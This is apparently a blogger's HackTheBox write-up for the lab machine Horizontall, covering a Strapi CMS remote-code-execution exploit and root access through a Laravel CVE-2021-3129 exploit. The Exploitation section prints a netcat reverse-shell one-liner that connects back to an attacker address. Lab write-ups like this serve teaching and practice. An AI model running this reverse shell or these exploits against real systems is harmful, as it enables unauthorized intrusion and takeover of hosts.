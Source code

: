 ```yaml
---
title: Horizontall WriteUp @HackTheBox
author: MBZ0x7
date: 2022-02-06 15:10:00 +0800
categories: [Penetration Testing]
tags: [linux,web,pentest,hackthebox]
pin: false
---
```

Hello, here's my writeup for Horizontall linux machine from HackTheBox, which I pwned few days ago before it gots retired. 

![](../../assets/img/posts/3/0.jpeg)
# <font color='red'>Information Gathering </font>
---
```
sudo nmap -sV 10.10.11.105
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Visiting 10.10.11.105 showed horizontall.htb, so I updated ```/etc/hosts```.

![](../../assets/img/posts/3/1.png)

When diging into website source code, I haven't found anything useful. So, immediately I decided to bruteforce subdirectories, which also reveals nothing unfortunately.

Then, I decided to bruteforce subdomains. I used gobuster with one of seclists wordlists, which revealed 1 subdomain. So, as previously I updated my hosts file.
![](../../assets/img/posts/3/2.png)

Here is how the subdomain looked up. Nothing of interest.
![](../../assets/img/posts/3/3.png)
So, I bruteforced subdirectories which showed 2 (/admin and /reviews).
![](../../assets/img/posts/3/4.png)
When visiting /admin subdir, I discovered that I'll be dealing with ```strapi CMS```.
![](../../assets/img/posts/3/5.png)
/reviews is useless.
![](../../assets/img/posts/3/6.png)
Trying default credentials wasn't successful, so I tried to find strapi version to look for CVEs which I found in one JS file. It was ```3.0.0-beta.17.4```.
![](../../assets/img/posts/3/7.png)
Looking into exploit-db, I found 1st and 3rd ones potentially applicable. 
![](../../assets/img/posts/3/8.png)

# <font color='red'>Exploitation</font>
---
I copied exploit-db 1st exploit into current directory using searchsploit command.
![](../../assets/img/posts/3/9.png)
 Then, executed it and used ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 4444 >/tmp/f``` to get reverse shell to netcat.
![](../../assets/img/posts/3/10.png)
Then, I found the user flag in developer account home directory.
![](../../assets/img/posts/3/11.png)

# <font color='red'>Privilege Escalation</font>
---
For PrivEsc, I run linPEAS after transfering its shell script file to the compromised machine. 

From its output, ports 8000 and 3306 caught my attention.
![](../../assets/img/posts/3/12.png)
I run ```curl http://127.0.0.1:8000``` and got a Laravel 8 website running locally.
![](../../assets/img/posts/3/13.png)
Visiting exploit-db, I found an RCE exploit that looks promissing. 
![](../../assets/img/posts/3/14.png)
For whatever reason it hasn't worked for me. So, I searched another one and found it 
[here](https://github.com/nth347/CVE-2021-3129_exploit) which got me arbitrary code execution on the root account ,and got the flag.
![](../../assets/img/posts/3/15.png)
